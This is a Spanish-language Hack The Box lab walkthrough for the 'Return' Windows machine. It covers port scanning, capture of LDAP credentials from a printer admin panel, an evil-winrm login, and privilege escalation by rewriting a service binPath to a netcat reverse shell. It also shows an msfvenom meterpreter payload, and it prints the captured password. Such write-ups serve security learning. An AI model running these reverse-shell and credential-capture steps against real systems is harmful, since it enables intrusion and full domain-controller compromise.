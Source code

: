 **Return**
-------------------------

1. Escaneo de puertos

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vv 10.10.11.108 -oG allports              
[sudo] password for mili: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 15:22 CEST
Initiating Ping Scan at 15:22
Scanning 10.10.11.108 [4 ports]
Completed Ping Scan at 15:22, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:22
Completed Parallel DNS resolution of 1 host. at 15:22, 0.00s elapsed
Initiating SYN Stealth Scan at 15:22
Scanning 10.10.11.108 (10.10.11.108) [65535 ports]
Completed SYN Stealth Scan at 15:23, 14.18s elapsed (65535 total ports)
Nmap scan report for 10.10.11.108 (10.10.11.108)
Host is up, received echo-reply ttl 127 (0.035s latency).
Scanned at 2024-09-21 15:22:49 CEST for 14s
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49675/tcp open  unknown          syn-ack ttl 127
49679/tcp open  unknown          syn-ack ttl 127
49682/tcp open  unknown          syn-ack ttl 127
49694/tcp open  unknown          syn-ack ttl 127
54159/tcp open  unknown          syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds
           Raw packets sent: 71020 (3.125MB) | Rcvd: 65542 (2.622MB)
```

```bash
$ nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,54159 10.10.11.108 -oN escaneo
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 15:23 CEST
Nmap scan report for 10.10.11.108 (10.10.11.108)
Host is up (0.040s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-21 13:42:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
54159/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-21T13:43:18
|_  start_date: N/A
|_clock-skew: 18m36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.88 seconds
```

2. Enumerar el servicio SMB

```bash
$ enum4linux -a 10.10.11.108
================================( Getting domain SID for 10.10.11.108 )===============================                                                                           
Domain Name: RETURN                                                                                                                                                                          
Domain Sid: S-1-5-21-3750359090-2939318659-876128439

[+] Host is part of a domain (not a workgroup)
```

Como no permite NULL o sesiones de invitado pasamos la página web.

3. IIS

![image](https://github.com/user-attachments/assets/07eebb5b-5911-47c9-b8b0-f4e673143320)
![image](https://github.com/user-attachments/assets/6e5eb4a8-3048-43db-bbe5-78aa83719af8)

4. Foothold

Estos dispositivos almacenan credenciales LDAP y SMB para que la impresora pueda consultar la lista de usuarios desde Active Directory y guardar los archivos escaneados en una unidad de usuario. Estas páginas de configuración suelen permitir especificar el controlador de dominio o el servidor de archivos. Vamos a crear una escucha en el puerto 389 (LDAP) y especificar nuestra dirección IP tun0 en el campo Dirección del servidor.

Hacemos una escucha
```bash
$ sudo nc -lvp 389
listening on [any] 389 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 59316
0*`%return\svc-printer�
1edFg43012!!

```

La conexión se recive y vemos que aparecen las credenciales de "svc-printer"
El puerto de WinRM está abierto por lo que utilizaremos "evil-winrm"
```bash
$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
   
Evil-WinRM shell v3.5
  
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
  
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

5. Escalada de privilegios
Enumerando grupos de miembros revelan que svc-printer pertene al grupo de server operators.
```PowerShell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/20/2024 8:19:17 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

Este grupo puede parar e iniciar servicios de sistema. Vamos a modificar una ruta de binario de servicio para obtener una reverse shell.
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload nc.exe
   
Info: Uploading /home/mili/Desktop/HTB/Return/nc.exe to C:\Users\svc-printer\Documents\nc.exe
   
Data: 79188 bytes of 79188 bytes copied
   
Info: Upload successful!
----------------------
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.15 4444"
[SC] ChangeServiceConfig SUCCESS
----------------------
```

Ahora iniciamos una escucha en el puerto que hayamos seleccionado:
```bash
$ nc -lvnp 4444                                                                                                                                                        
listening on [any] 4444 ...
```

Y paramos e iniciamos el servicio:
```powershell
Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

Y observamos que en nuestro nc se ha establecido conexión:
```bash
$ nc -lvnp 4444                                                                                                                                                        
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 53956
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Esa shell morirá en poco tiempo por lo que podemos usar msfvenom para generar una shell de meterpreter en un archivo para el host remoto de Windows:
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe > shell-x86.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Y la subimos igual que antes con upload.
Y nos vamos a meterpreter con msfconsole.

![image](https://github.com/user-attachments/assets/c2469f7c-79a9-4f12-bb3e-215ba9e6bcc9)
![image](https://github.com/user-attachments/assets/faa9a9b1-0f0d-45ac-9323-75dee1da4a70)

Y ahora modificamos el servicio binario para obtener nuestra shell con la que hemos subido:
![image](https://github.com/user-attachments/assets/9a394d43-c88b-4fb7-aa44-59b9f5594bda)

![image](https://github.com/user-attachments/assets/c3bca298-8938-4418-a7e9-2a94365cd920)

Con migrate conseguimos persistencia al cambiar a un proceso que no suele cerrarse y siempre está activo.
![image](https://github.com/user-attachments/assets/3b1762ee-0360-400f-998b-a5c2a3d581c7)

![image](https://github.com/user-attachments/assets/b31a61dc-7834-4c32-a194-f7d88eb0d6cc)



